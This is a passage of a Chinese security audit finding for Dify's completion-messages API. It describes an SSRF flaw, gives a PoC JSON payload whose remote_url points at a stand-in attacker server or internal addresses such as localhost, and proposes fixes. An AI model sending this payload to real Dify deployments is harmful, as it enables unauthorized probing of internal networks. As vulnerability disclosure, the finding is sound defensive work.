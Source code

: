 #### 安全审计师评估:

*   **可达性:** 远程。需要有效的App API Token。攻击者可以从外部互联网访问Nginx代理的 `/api` 路径。
*   **所需权限:** 需要有效的App API Token (`Authorization: Bearer <token>`)。
*   **潜在影响（情境化）:** 高。攻击者可以利用运行Dify API服务的服务器作为跳板，探测和潜在地访问该服务器可达的内部网络资源。这可能包括内部数据库、未受保护的管理界面、其他内部服务等。由于是HEAD请求，直接数据窃取可能有限，但服务发现和某些交互仍是可能的。

#### 概念验证 (PoC):

*   **分类:** 远程
*   **PoC描述:** 攻击者使用有效的App API Token，向 `/api/service-api/completion-messages` 端点发送一个特制的JSON请求，其中包含一个指向内部或外部任意URL的 `remote_url` 文件对象。服务器将向此URL发出HEAD请求。
*   **复现步骤:**
    1.  获取一个有效的App API Token。
    2.  构造如下JSON载荷，将 `YOUR_APP_API_TOKEN` 替换为实际token，并将 `ATTACKER_CONTROLLED_SERVER_OR_INTERNAL_IP/PORT` 替换为攻击者控制的服务器URL（用于接收回调请求）或一个已知的内部服务地址（如 `http://localhost:8000` 或 `http://192.168.1.X:YYYY`，假设Dify API服务器可以访问它们）。
        ```json
        {
            "inputs": {},
            "query": "Hello",
            "response_mode": "blocking",
            "user": "test-ssrf-user",
            "files": [
                {
                    "type": "image", // 类型需要是应用配置允许的之一
                    "transfer_method": "remote_url",
                    "url": "http://ATTACKER_CONTROLLED_SERVER_OR_INTERNAL_IP/PORT/ssrf_test"
                }
            ]
        }
        ```
    3.  使用HTTP POST方法将此JSON载荷发送到 `http://<dify_host_address>/api/service-api/completion-messages`，并在请求头中包含 `Authorization: Bearer YOUR_APP_API_TOKEN` 和 `Content-Type: application/json`。
*   **预期结果:**
    *   Dify API 服务器会向 `http://ATTACKER_CONTROLLED_SERVER_OR_INTERNAL_IP/PORT/ssrf_test` 发送一个HTTP HEAD请求。
    *   如果 `ATTACKER_CONTROLLED_SERVER_OR_INTERNAL_IP/PORT` 是攻击者控制的服务器，攻击者应能观察到来自Dify服务器IP的入站HEAD请求。
    *   如果指向内部服务，根据内部服务的行为和日志记录，可能可以观察到交互。
*   **前提条件:**
    *   Nginx服务将 `/api/service-api/completion-messages` 路由到后端的API服务 (已由部署报告确认)。
    *   攻击者拥有一个有效的App API Token。
    *   Dify API服务器的 `dify_config` 中未配置 `SSRF_PROXY_ALL_URL` 或 `SSRF_PROXY_HTTP_URL`/`SSRF_PROXY_HTTPS_URL` 来强制所有出站请求通过一个（安全的）代理。如果配置了代理，则此PoC将测试该代理是否允许访问目标URL。
    *   所选的 `files[0].type` (例如 "image") 必须是应用配置允许通过 `remote_url` 方式加载的类型。

#### 建议修复方案:

1.  **首选方案：URL验证与限制:**
    *   在 `ssrf_proxy.py` 或调用它的地方，对用户提供的 `url` 进行严格验证。
    *   维护一个IP地址/域名白名单或黑名单。优先使用白名单。
    *   限制可访问的端口（例如，只允许标准的HTTP/HTTPS端口80, 443）。
    *   禁止访问私有IP地址段 (RFC1918) 和本地回环地址 (127.0.0.1, ::1)，除非有明确的业务需求且经过严格审查。
    *   考虑使用专门的SSRF防护库。
2.  **配置安全的出站代理:**
    *   如果必须允许访问任意外部URL，强制所有此类出站请求通过一个专用的、经过安全配置和监控的出站代理服务器。此代理服务器应有自己的SSRF防护机制。通过设置 `SSRF_PROXY_ALL_URL` 等环境变量来配置。
3.  **最小权限原则:** 确保运行Dify API服务的进程在网络上具有最小必要权限。
